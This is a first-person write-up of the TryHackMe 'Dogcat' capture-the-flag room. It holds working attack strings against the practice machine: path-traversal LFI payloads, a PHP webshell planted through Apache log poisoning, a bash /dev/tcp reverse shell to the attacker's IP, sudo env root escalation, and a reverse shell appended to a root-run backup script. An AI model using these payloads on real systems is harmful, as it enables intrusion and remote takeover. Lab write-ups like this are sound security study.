 #+TITLE: THM: Dogcat
#+DATE: <2022-03-26 Sat>
#+filetags: tryhackme

#+begin_comment
 Hello, this is my first writeup 
#+end_comment

* Reconnaissance
First I decided to use ~masscan~ on all of the machine ports to limit the ports
I would then run more elaborate scans. However, since that scan did not wield
any results, I went back to good old ~nmap~.
#+begin_code sh
sudo nmap -Pn <MACHINE_IP>
#+end_code
This checks only the most frequently used ports but gave us a good place to
start; two ports were open:
- 22 which belongs to ~ssh~
- 80 which signals the existence of a webserver
After that I ran
#+begin_code sh
sudo nmap -A -p22,80 <MACHINE_IP>
#+end_code
to get more information on the software these ports were running.
#+begin_quote
22: OpenSSH 7.6p1, running on a Ubuntu Machine
80: Apache 2.4.38 WebServer
#+end_quote

** Further enumeration
*** Viewing the source code
Just by checking the source code for the website through the /Inspect tool/ in
Firefox, it is easy for us to see that there are two directories called dogs and
cats, each of which holds pictures in the form of /<NO>.jpg/ where NO ranges
from 1 to 10.

*** Gobuster
Even though it is a generally good habit to use ~gobuster~ to check for any
useful accessible files, it was not the case in this room. In fact, I think that
it was due to this type of scanning that I had to terminate the vm and restart
it in order for it to respond to my /GET/ requests.

* Exploitation
We see that the website uses ~?view=dog~ to display a random picture for a dog
or a cat respectively, pointing out that we could check for [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion][Local File
Inclusion]].

After a little bit of toying around with that, realising that the string passed
needs to contain either /dog/ or /cat/ in order to be executed by the php
back-end, we try to see what files we can access:
#+begin_code php
?view=../../../../../etc/passwd%00dog

?view=dog/../../../../../etc/passwd

?view=dogs
#+end_code
The first one showed an error about the file, while the second one proved to be
_very_ interesting. The server side did not search for the /etc/passwd file but
for /etc/passwd.php. The backend adds an extension to what we pass!

That means, that instead of dog or cat the backend reads a dog.php or cat.php
respectively. It may be beneficial to access it:

Using a php wrapper we tailor the request to our needs:
#+begin_quote
?view=php://filter/convert.base64-encode/dog
#+end_quote
Getting back the code for /dog.php/ encoded in base64.
To decode it, avoiding online tools one can simply use

#+begin_code sh
echo '<paste encoded code here>' > dog.b64
base64 -d dog.b64 > dog.php
#+end_code

We do the same for /cat.php/ but it turns out that these files have no actual
meaning. They do not reveal any useful information. This changes when we get the
/index.php/. Inside it we realise that the ~.php~ extension that gets added to
our requests can be changed using the ~?ext=~ parameter!

** The passwd file
Going back to previous requests we can finally see /etc/passwd!!
#+begin_code php
?view=dog/../../../../../etc/passwd&ext=
#+end_code
Completely minimal installation; Only one user has terminal access, ~root~ and
every other account listed on passwd has ~nologin~ set as shell.

Bruteforcing root over ssh does not wield any results :(

** Checking the logs
After just a little bit of googling, we can see that the apache server holds
logs of all the requests at ~/var/log/apache2/access.log~, and it also logs the
user agent we have used for the request.

We can see now how to proceed, manually set the agent to a webshell and run all
the commands through it. Will it work?

Yup, it worked.

** Webshell
Either through ~curl~, ~burpsuite~ or ~zap~ we set the user-agent to
#+begin_code php
<?php system($_GET['cmd']) ?>
#+end_code
and modify our link so that it also has a cmd parameter, which I set to ~ls~ to
verify that it is working

** Remote shell >> Webshell
To get from the webshell to a remote shell is nothing difficult; We open a
listener in our machine ~nc -lvnp <port>~ and then use a /good enough/ command
on the cmd parameter

I went with this one ( after checking with ~whereis bash~ )
#+begin_code sh
bash -c "bash -i >& /dev/tcp/<MYIP>/<MYPORT> 0>&1"
#+end_code

/Hint/: Do not forget to encode it as url[fn:2]

* Privilege escalation
Now the difficult part is over; two of the flags are within our reach without
even trying to gain root privileges... but what if...!

Naturally the first step was to check for sudo privileges ~sudo -l~
It lets us run ~env~ without a password, which means, pretty much that we can do
anything we want as root on the machine.
#+begin_code sh
sudo env bash
#+end_code

The third flag is in the ~/root~ directory

* Where do we go from here
I started digging around the system, hoping I could find something useful to see
where to go from there. I ran ~ls -al~ on ~/~ and discovered a ~.dockerenv~. It
seems we're inside a Docker environment!

(Well obviously, it is in the room description... Except if you forgot to read
it thoroughly)

Next stop was to check whether ~crontab -l~ had something to show... No luck there

Not long after I realised that the ~/opt~ directory was nearly empty ( In
hindsight I think it may have had been wise to check for ~du~ at that point ),
and inside it was an interesting ~backup.sh~ file.

I added a reverse shell there, opened a listener on my machine, just in case it
was scheduled to run every now and then and kept digging. Lucky me[fn:1] after a
little time I saw that my netcat listener was now a root shell outside of the
docker environment!!

Getting the flag from there was extremely easy.
* Summary
Even though I had met and toyed around with LFI before, it was the first time I
had to use it in a CTF room and proved to be quite interesting to me, relying on
[[https://github.com/swisskyrepo/PayloadsAllTheThings][PayloadsAllTheThings]] to get some information on techniques and places to start

Also, it was interesting to see the docker aspect of the room, which I could not
understand even hours after completing the room ( it seemed way too simple )

* Footnotes
[fn:2] Obviously one can always perform this step using many other techniques.
This one just feels more natural to me.

[fn:1] After finishing this article, I decided to check the writeups suggested
in thm, to see if anyone had a better explanation one more logical than my
/hunch/. It was impressively simple: The backup directory that existed in
~/opt/backups~ was significantly /newer/ than the shell script, meaning that the
machine was backed up regularly
